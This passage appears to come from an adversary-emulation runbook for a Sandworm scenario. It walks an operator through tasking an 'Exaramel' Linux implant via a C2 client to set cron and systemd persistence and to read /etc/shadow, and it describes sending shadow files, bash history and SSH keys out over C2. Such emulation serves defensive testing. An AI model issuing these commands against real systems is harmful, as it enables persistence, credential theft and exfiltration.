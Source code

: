 <br>

## Step 14 - Exaramel Linux Persistence

:microphone: `voice track`

During this step, Sandworm establishes crontab and systemd persistence.

Sandworm then exfils /etc/shadow, bash history, and fherbert's SSH keys over the existing C2 channel.

In the next step, Sandworm uses credentials derived from the /etc/shadow file to attack a lateral host.

### :biohazard: Procedures

From your control server tab, split the window horizontally:

```
Right click > Split Horizontally
```


In your lower terminal, enter the control server directory. Interaction with Exaramel-Linux (the implant) will occur through this terminal.

**Note**: Make sure to wait for the client to return the results of the previous command before tasking a new command.

```bash
cd ~/wizard_spider/Resources/control_server
```

Set cron persistence.

```bash
# Exaramel for Linux uses crontab for persistence if it does not have root privileges.

./evalsC2client.py --set-task exaramel-implant "persist cron"
```

[Source Code](../../Resources/Exaramel/configur/configur.go#L212)

Set systemd persistence.

```bash
# Exaramel for Linux has a hardcoded location under systemd that it uses to achieve persistence if it is running as root.

./evalsC2client.py --set-task exaramel-implant "persist systemd"
```

[Source Code](../../Resources/Exaramel/configur/configur.go#L261)

Get /etc/shadow.

```bash
# Note: not in CTI but in TTP scope
# OS Credential Dumping: /etc/passwd and /etc/shadow

./evalsC2client.py --set-task exaramel-implant "exec cat /etc/shadow"
```
